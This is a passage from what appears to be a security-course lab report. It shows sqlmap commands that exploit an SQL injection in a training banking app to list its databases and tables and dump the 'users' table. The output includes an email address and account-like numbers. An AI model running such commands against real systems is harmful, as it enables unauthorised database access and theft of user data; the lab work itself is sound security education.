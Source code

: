 The next step was to get the name of the database and the tables, as done in Listing \ref{sqlmap-get-tables}

\begin{lstlisting}[caption = Get name and tables of database,label=sqlmap-get-tables]
python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --dbs
...
available databases [10]:
[*] banking_development
[*] dvwa
[*] information_schema
[*] mysql
[*] owasp10
[*] performance_schema
[*] phpmyadmin
[*] samurai_dojo_basic
[*] samurai_dojo_scavenger
[*] test


python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --tables -D banking_development

Database: banking_development
[5 tables]
+--------------+
| payments     |
| phinxlog     |
| tan_numbers  |
| transactions |
| users        |
+--------------+
\end{lstlisting}

Now you can dump a table, e.g "users"

\begin{lstlisting}[caption= Dump Table "users", label=listing:dump_table]
	python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --dump -D banking_development -T users
	...
	[15:14:07] [INFO] retrieved: id
	[15:14:07] [INFO] retrieved: name
	[15:14:08] [INFO] retrieved: password
	[15:14:09] [INFO] retrieved: email
	[15:14:10] [INFO] retrieved: admin
	[15:14:11] [INFO] retrieved: account_no
	...
	[15:14:14] [INFO] retrieved: 1
	[15:14:14] [INFO] retrieved: t.srivishnu@gmail.com
	[15:14:17] [INFO] retrieved: 1
	[15:14:17] [INFO] retrieved: t.srivishnu@gmail.com
	[15:14:19] [INFO] retrieved: 1234567890
	[15:14:20] [INFO] retrieved: 527652613432
	
\end{lstlisting}

As you can see in Listing \ref{listing:dump_table} sqlmap-get-tables  you receive a list of the columns of the table. You also get a list of all entries. For this example only the data of the admin were chosen, but you can access every entry.
 \newline
 \newline
A further possibillity is to break the authentication of the database by hijacking the password of the database root user.

